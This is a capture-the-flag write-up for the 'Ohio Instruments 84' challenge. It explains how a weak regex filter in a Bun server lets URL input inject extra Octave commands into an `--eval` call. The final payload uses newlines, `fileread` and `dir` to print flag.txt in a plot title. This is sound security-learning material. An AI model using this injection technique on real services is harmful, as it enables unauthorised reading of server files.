

# Ohio Instruments 84

## Solution

index.ts

```ts
async function plot(expr: string) {
    if (!/^([x()+*\-\.\^/\d\s]|(\w+\())+$/.test(expr)) {
        throw new Error("Invalid expression");
    }
    const filename = `${crypto.randomUUID()}.jpg`;
    const cmd = `x = -10:.2:10; h = figure('visible', 'off'); plot(x, ${expr}); saveas(h, '${filename}')`;
    const proc = Bun.spawn(["octave", "--eval", cmd])

// (snip)

const server = Bun.serve({
    port: 1024,
    async fetch(request) {
        const url = new URL(request.url);
        if (url.pathname === "/") {
            return new Response(Bun.file(import.meta.dir + "/index.html"));
        }
        const expr = decodeURI(url.pathname.substring(1));
        return await plot(expr);
// (snip)
```

Looking at source code:

- `expr` parameter in URL path is user controlable
- `expr` is executed as `plot(x, ${expr});` in [Octave](https://octave.org/)
- `expr` must match `/^([x()+*\-\.\^/\d\s]|(\w+\())+$/` regexp

As for regexp, I used with online tools such as [regex101](https://regex101.com/) and [RegExr](https://regexr.com/).

- allowed char: space, `(`, `)`, `\n`, `\r`
- not allowed char: `'`, `"`, `;`

Regular expression bypass example:

- OK: `sin(1)`, `sin(1) cos(2)\ntan(3)`
- NG: `system('ls')`, `foo(1);`

Shell Command is executed in `Bun.spawn`.
But it seems that Shell Command Injection is impossible because quotation (`'`, `"`) is not allowed.

flag.txt is located at the same directory to index.ts.
I'll search Octave's functions that allow to output the flag.txt with the PDF.
Octave is compatible with Matlab, and therefore it is useful to read the documentation for Matlab as well as Octave.

Useful function:

- `dir` function
  - Octave: [Function Reference: dir](https://octave.sourceforge.io/octave/function/dir.html)
  - Matlab: [List folder contents - MATLAB dir](https://www.mathworks.com/help/matlab/ref/dir.html)
    > Get a list of the files in myfolder. MATLAB® returns the information in a structure array.
    >
    > ```
    > MyFolderInfo = dir('myfolder')
    > ```
    > MyFolderInfo=5×1 struct array with fields:
    >
    >     name
    >     folder
    >     date
    >     bytes
    >     isdir
    >     datenum
    >
    > Index into the structure to access a particular item.
    >
    > ```
    > MyFolderInfo(3).name
    > ```
    > ans =
    > 'myfile1.m'

    It seems that the string `flag.txt` can be obtained such as `dir()(3).name()`.

- `fileread` function
  - Octave: [Function Reference: fileread](https://octave.sourceforge.io/octave/function/fileread.html)
  - Matlab: [Read contents of file as text - MATLAB fileread](https://www.mathworks.com/help/matlab/ref/fileread.html)

- `title` function
  - Octave: [Function Reference: title](https://octave.sourceforge.io/octave/function/title.html)
  - Matlab: [Add title - MATLAB title](https://www.mathworks.com/help/matlab/ref/title.html)

Then, use newline (`\n`) to separate commands instead of `;`.
Using these functions, I can get flag by using `expr` the following:

```
1)%0atitle(fileread(dir()(7).name()))%0asin(1
```

As a result, code similar to the below would be passed to the `--eval` option:

```octave
x = -10:.2:10; h = figure('visible', 'off'); plot(x, 1)
title(fileread(dir()(7).name()))
sin(1); saveas(h, 'uuid.pdf')
```

Got PDF:



Note that the character after `_` are smaller, and the `{` and `}` is missing.
For example, in the example above, `bctf{fake_flag}` is the correct flag.
